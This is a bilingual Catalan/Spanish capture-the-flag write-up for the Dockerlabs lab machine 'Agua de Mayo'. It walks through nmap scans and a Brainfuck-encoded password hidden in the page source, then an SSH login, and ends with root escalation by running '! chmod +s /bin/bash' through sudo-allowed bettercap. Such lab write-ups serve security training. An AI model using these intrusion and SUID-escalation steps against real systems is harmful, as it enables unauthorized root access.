# Agua de Mayo

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 21:18

## Reconeixement / Reconocimiento

### NMAP

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 30.png>)

```bash
sudo nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![image.png](<imagenes/image 31.png>)

```bash
sudo nmap -p80 --script=http-enum 172.17.0.2
```

![image.png](<imagenes/image 32.png>)

Directorio : /images/

Trobem una imatge / Encontramos una imagen :

Agua_ssh

## Anàlisis de vulnerabilitats / Análisis de vulnerabilidades

Provem de veure si conté dades / Probamos a ver si contiene datos:

```bash
steghide info agua_ssh.jpg
Demana password
```

![image.png](<imagenes/image 33.png>)

Revisem la web per veure si trobem algo al codi / Revisamos la web para ver si encontramos algo en el código:

```bash
curl -s -X GET [http://172.17.0.2/](http://172.17.0.2/)
```

Ens troba una última linea / Econtramos en la última linia:

++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.

Busquem un decode / Buscamos un Decoder:
Codi BrainFuck

Decodifiquem i surt:

be**************no

## Explotació / Explotación

Conectem per SSH amb usuari "Agua" de la imatge i el password de la web / Conectamos por SSH con usuario "Agua" y el password decodificado de Brainfuck


```bash
ssh [agua@172.17.0.2](mailto:agua@172.17.0.2)
```

![image.png](<imagenes/image 34.png>)

Provem a buscar permisos amb Sudo / Probamos a buscar permisos con sudo

![image.png](<imagenes/image 35.png>)

Podem executar "bettercap" sense password i com a root / 
Podemos ejecutar "bettercap" sin passowrd como usuario root


```bash
sudo bettercap
```

![image.png](<imagenes/image 36.png>)

Veiem que es poden executar instruccions amb `!cmd` / Vemos que podemos ejecutar comoandos como root con `!cmd`


## Escalada de privilegis / Escalada de privilegios

Provem amb `!whoami` i veiem que ja som root / Probamos con `!whoami` y vemos que somos root

![image.png](<imagenes/image 37.png>)

Per mirar de tenir una shell mes operativa done permis SUID a la bash / Para tener una shell mas operativa, damos permiso SUID a la bash con:

```
! chmod +s /bin/bash
```

Sortim de bettercap i provem la shell / Salimos de bettercap y probamos la shell


![image.png](<imagenes/image 38.png>)